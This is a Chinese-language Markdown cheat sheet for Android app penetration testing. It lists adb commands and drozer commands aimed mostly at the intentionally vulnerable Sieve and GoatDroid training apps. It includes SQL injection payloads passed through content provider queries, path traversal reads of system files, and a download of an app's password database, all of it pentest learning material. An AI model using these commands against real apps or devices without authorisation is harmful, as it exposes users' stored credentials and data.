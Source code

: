 # App渗透测试记录 

### 1. 常用命令  

1. 获取已安装应用的包名  

 		adb shell pm list packages  
 
2. 获取包名对应的APK路径
 
 		adb shell pm path com.vivo.sdkplugin 
3. 把APK pull到本地  

 		adb pull /data/app/com.vivo.sdkplugin-zvXOuWJKeKVhhESsKWxOxg==/base.apk abc.apk
4. aapt获取APK包的信息 
 
 		aapt dump badging apk_path  

5. 获取应用的信息  

 		adb shell dumpsys package <package_name>  

6. 获取当前运行的Activity   

		adb shell dumpsys activity | grep -i run   
 
7. 获取和用户正在交互的Activity  
 
 		adb shell dumpsys activity  | grep "mFoc"
 		

### 2. drozer使用  

1. adb forward tcp:31415 tcp:31415  
2. adb console connect  
3. run app.package.list 
4. run app.package.list -f sieve 
5. run app.package.info -a com.mwr.example.sieve  
6. 检查攻击面：  
 
 		run app.package.attacksurface com.mwr.example.sieve  
 
#### 1. Activity测试  
1. 查看activity信息：  

 		run app.activity.info -a com.mwr.example.sieve

2. 启动activity信息：  
	1. Activity通常就是一个单独的屏幕，可以显示一些控件也可以监听并处理用户的的事件最初响应；   
 	2. Activity之间通过Intent进行通信，最重要的部分：动作和动作对应的数据  
 	3. 越权访问问题  

			run app.activity.start –-component com.mwr.example.sieve com.mwr.example.sieve.PWList  
	4. 翻译编译代码，确定activity需要传递的参数，启动activity：  
			
			run app.activity.start --component com.example.pacakge com.example.activity --extra string package strvalue --extra string appid appidvalue    


#### 2. Provider测试  
1. 查看content provider信息  

 		run app.provider.info -a com.mwr.example.sieve  

2. 查找可以访问的content provider的URI  
	1. 最好需要打开应用程序，保证应用程序在运行  
	2. 数据泄露  

 			run scanner.provider.finduris -a com.mwr.example.sieve

 	3. 查询、修改数据：  
 		
 			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ –-vertical
 			
3. 进行SQL注入  

	1. SQLite数据库使用SQL语句，所以进行SQL注入，使用projection参数和selection参数可以传递一些简单点得SQL注入语句，获取到详细的报错信息：    
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"   

  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" 
   
	2. 查询所有数据库表：  
  
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE TYPE='table';-- "   
  
 	3. 列出数据库内容：
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;-- "   
    
4. 扫描注入：
 
  		run scanner.provider.injection -a APP
  
5. 从File Content Providers获取信息：    
 	1. File System-backed Content Provider提供了访问底层文件系统的方法，Android沙盒会阻止App共享文件允许，而File System-backed Content Provider允许App共享文件。 
 	2. 对于sieve来说，我们可以推测出的FileBackupProvider就是一个file system-backed content provider。 我们可以使用drozer的app.provider.read模块查看某个文件：
  
  			run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts  
6. 文件下载：
 
  		run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db  

7. 检查是否存在遍历文件漏洞
 
  		run scanner.provider.traversal -a com.mwr.example.sieve   
 
 
#### 3. Broadcast测试：  
	
BroadcastReceive广播接收器应用可以使用它对外部事件进行过滤只对感兴趣的外部事件(如当电话呼入时，或者数据网络可用时)进行接收并做出响应。广播接收器没有用户界面。然而，它们可以启动一个activity或serice 来响应它们收到的信息，或者用NotificationManager来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。   

1. 查看暴露的广播组件信息：
 
  		run app.broadcast.info -a com.package.name  
 
    
2.  发送信息：
 
  		run app.broadcast.send --component packagename receivername --action android.intent.action.XXX

    
3.  空action：
 
  		run app.broadcast.send --component packagename ReceiverName
  
4. 空extras:
 
  		run app.broadcast.send --action android.intent.action.XXX

#### 4. service测试：  

1. 获取service：
  
  		run app.service.info -a com.mwr.example.sieve
  
2. 向某个服务发送信息：
 
  		run app.service.send com.mwr.example.sieve com.mwr.example.sieve.CryptoService –msg 1 5 3
3. 启动service：
 
  		run app.service.start --action org.owasp.goatdroid.fourgoats.services.LocationService --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.services.LocationService
  
4. 使用命令：  
  
  		run app.service.send <package name> <component name> --msg <what> <arg1> <arg2> --extra <type> <key> <value> --bundle-as-obj
  		
 